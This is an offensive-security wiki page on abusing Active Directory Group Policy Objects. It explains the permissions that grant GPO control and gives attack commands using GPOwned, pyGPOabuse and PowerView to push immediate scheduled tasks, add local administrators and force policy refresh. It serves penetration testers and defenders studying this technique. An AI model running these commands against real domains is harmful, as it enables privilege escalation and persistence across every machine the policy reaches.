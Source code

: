 # Group policies

## Theory

"Group Policy" is a management feature of Active Directory. It allows admins to manage computers and users. Group Policy Objetcs (GPOs) make up Group Policies. GPOs are associated to AD objects (sites, domains, organizational units (OUs)).

> Group Policies can include security options, registry keys, software installation, and scripts for startup and shutdown and domain members refresh group policy settings every 90 minutes by default (5 minutes for Domain Controllers). This means that Group Policy enforces configured settings on the targeted computer.
>
> [adsecurity.org](https://adsecurity.org/?p=2716)

In certain scenarios, an attacker can gain control over GPOs. Some ACEs can give that control (see [this BlackHat conf](https://www.blackhat.com/docs/us-17/wednesday/us-17-Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors-wp.pdf), page 28):

* `WriteProperty` to the `GPC-File-Sys-Path` property of a GPO (specific GUID specified)
* `GenericAll`, `GenericWrite`, `WriteProperty` to any property (no GUID specified)
* `WriteDacl`, `WriteOwner`

To enumerate GPO's delegation & permissions, please refer to following page

{% content-ref url="../../a-d/recon/objects-and-settings/group-policies.md" %}
[group-policies.md](../../a-d/recon/objects-and-settings/group-policies.md)
{% endcontent-ref %}

## Practice

GPO-based attacks can be conducted with [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module), [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) (C#), or [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (python) and [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) for UNIX-like systems.

### Immediate Scheduled Task

An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. The attacker can then gain access to all AD objects this GPO applies to.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, a new immediate scheduled task can be created with [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) or added to an existing GPO with [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (Python).

```bash
# GPOwned (buggy, not to use in production) - execute something (e.g. calc.exe)
GPOwned -u 'user' -p 'password' -d 'domain' -dc-ip 'domaincontroller' -gpoimmtask -name '{12345677-ABCD-9876-ABCD-123456789012}' -author 'DOMAIN\Administrator' -taskname 'Some name' -taskdescription 'Some description' -dstpath 'c:\windows\system32\calc.exe'

# pyGPOabuse, update an existing GPO - add a local admin
pygpoabuse 'domain'/'user':'password' -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
```
{% endtab %}

{% tab title="Windows" %}
From Windows, a new immediate scheduled task can be created with [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) module (Powershell). In the following example, a user is added to the local administrators group.

```bash
New-GPOImmediateTask -Verbose -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command cmd -CommandArguments "/c net localgroup administrators shutdown /add"
```

After a successful execution, the scheduled task can be removed with the following command.

```bash
New-GPOImmediateTask -Force -Remove -GPODisplayName 'GPODisplayName'
```
{% endtab %}
{% endtabs %}

### Manually adding a user to the local admin group

An attacker can also manually add a user to the local administrator group. This can be achieved with the Group Policy Management Editor.

**Step 1**: create the user

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Create > User name: <user>`

**Step 2**: add the user to the local admin group

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Update > Group name : <Administrators> > Members: Add: <user>`

### Force Group Policy update

Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`.

### Other exploitation paths

In addition to the aforementioned exploitation paths, GPOs can be abused in other ways: leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

### Group Policy Preferences Password

Sometimes, you will find the built-in Administrator's password in a Group Policies.

{% content-ref url="credentials/dumping/group-policies-preferences.md" %}
[group-policies-preferences.md](credentials/dumping/group-policies-preferences.md)
{% endcontent-ref %}

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/" %}

{% embed url="https://adsecurity.org/?p=2716" %}

{% embed url="https://beta.hackndo.com/gpo-abuse-with-edit-settings/" %}
